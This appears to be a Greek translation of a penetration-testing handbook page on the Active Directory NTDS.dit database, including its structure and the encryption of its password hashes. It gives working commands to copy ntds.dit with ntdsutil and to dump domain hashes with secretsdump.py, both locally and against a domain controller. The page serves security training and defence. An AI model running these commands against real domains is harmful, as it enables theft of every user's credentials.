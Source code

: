 Το αρχείο **NTDS.dit** είναι γνωστό ως η καρδιά του **Active Directory**, κρατώντας κρίσιμα δεδομένα σχετικά με αντικείμενα χρηστών, ομάδες και τις συμμετοχές τους. Είναι εκεί που αποθηκεύονται οι **password hashes** για τους χρήστες του τομέα. Αυτό το αρχείο είναι μια βάση δεδομένων **Extensible Storage Engine (ESE)** και βρίσκεται στο **_%SystemRoom%/NTDS/ntds.dit_**.

Μέσα σε αυτή τη βάση δεδομένων, διατηρούνται τρεις κύριοι πίνακες:

- **Data Table**: Αυτός ο πίνακας είναι υπεύθυνος για την αποθήκευση λεπτομερειών σχετικά με αντικείμενα όπως χρήστες και ομάδες.
- **Link Table**: Παρακολουθεί τις σχέσεις, όπως τις συμμετοχές σε ομάδες.
- **SD Table**: **Security descriptors** για κάθε αντικείμενο κρατούνται εδώ, εξασφαλίζοντας την ασφάλεια και τον έλεγχο πρόσβασης για τα αποθηκευμένα αντικείμενα.

Περισσότερες πληροφορίες σχετικά με αυτό: [http://blogs.chrisse.se/2012/02/11/how-the-active-directory-data-store-really-works-inside-ntds-dit-part-1/](http://blogs.chrisse.se/2012/02/11/how-the-active-directory-data-store-really-works-inside-ntds-dit-part-1/)

Τα Windows χρησιμοποιούν το _Ntdsa.dll_ για να αλληλεπιδρούν με αυτό το αρχείο και χρησιμοποιείται από το _lsass.exe_. Στη συνέχεια, **μέρος** του αρχείου **NTDS.dit** θα μπορούσε να βρίσκεται **μέσα στη μνήμη του `lsass`** (μπορείτε να βρείτε τα τελευταία προσπελάσιμα δεδομένα πιθανώς λόγω της βελτίωσης απόδοσης χρησιμοποιώντας μια **cache**).

#### Decrypting the hashes inside NTDS.dit

Ο hash κρυπτογραφείται 3 φορές:

1. Αποκρυπτογράφηση του Password Encryption Key (**PEK**) χρησιμοποιώντας το **BOOTKEY** και **RC4**.
2. Αποκρυπτογράφηση του **hash** χρησιμοποιώντας το **PEK** και **RC4**.
3. Αποκρυπτογράφηση του **hash** χρησιμοποιώντας το **DES**.

Το **PEK** έχει την **ίδια τιμή** σε **κάθε domain controller**, αλλά είναι **κρυπτογραφημένο** μέσα στο αρχείο **NTDS.dit** χρησιμοποιώντας το **BOOTKEY** του **SYSTEM αρχείου του domain controller (είναι διαφορετικό μεταξύ των domain controllers)**. Γι' αυτό, για να αποκτήσετε τα credentials από το αρχείο NTDS.dit **χρειάζεστε τα αρχεία NTDS.dit και SYSTEM** (_C:\Windows\System32\config\SYSTEM_).

### Copying NTDS.dit using Ntdsutil

Διαθέσιμο από τα Windows Server 2008.
```bash
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
```
Μπορείτε επίσης να χρησιμοποιήσετε το [**trick volume shadow copy**](./#stealing-sam-and-system) για να αντιγράψετε το αρχείο **ntds.dit**. Θυμηθείτε ότι θα χρειαστείτε επίσης ένα αντίγραφο του αρχείου **SYSTEM** (ξανά, [**dump it from the registry or use the volume shadow copy**](./#stealing-sam-and-system) trick).

### **Εξαγωγή κατακερματισμών από το NTDS.dit**

Μόλις έχετε **obtained** τα αρχεία **NTDS.dit** και **SYSTEM**, μπορείτε να χρησιμοποιήσετε εργαλεία όπως το _secretsdump.py_ για να **extract the hashes**:
```bash
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```
Μπορείτε επίσης να **εξάγετε αυτά αυτόματα** χρησιμοποιώντας έναν έγκυρο χρήστη διαχειριστή τομέα:
```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```
Για **μεγάλες NTDS.dit αρχεία** συνιστάται να τα εξάγετε χρησιμοποιώντας [gosecretsdump](https://github.com/c-sto/gosecretsdump).
